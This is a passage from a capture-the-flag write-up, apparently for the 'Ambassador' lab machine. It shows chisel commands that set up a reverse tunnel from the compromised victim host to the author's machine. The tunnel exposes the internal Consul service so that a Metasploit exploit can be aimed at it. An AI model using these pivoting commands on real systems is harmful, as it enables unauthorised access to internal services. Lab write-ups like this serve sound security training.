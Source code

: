 

But we can’t use that, cuz UI on victim machine seems to be disabled:

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

So let’s set up a TCP tunneling from Ambassador machine to ours to exploit the vulnerability.

We will use a `chisel`.



1. On the local machine:

```bash
~/tools> ./chisel server -p 8080 --reverse
2022/10/24 22:58:49 server: Reverse tunnelling enabled
2022/10/24 22:58:49 server: Fingerprint ``tx4Ngv/UtweTvoIMDAuUoDe7G6BoF9m88xU+//DNXSM=
2022/10/24 22:58:49 server: Listening on http://0.0.0.0:8080
```

2. On the victim machine:

```
developer@ambassador:~/.tmp$ ./chisel client 10.10.16.45:8080 R:8500:127.0.0.1:8500
2022/10/24 19:05:36 client: Connecting to ws://10.10.16.45:8080
2022/10/24 19:05:38 client: Connected (Latency 130.006367ms)
```



Great, now we can access Consul at 127.0.0.1:8500, so let’s set the parameters for the exploit in metasploit:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
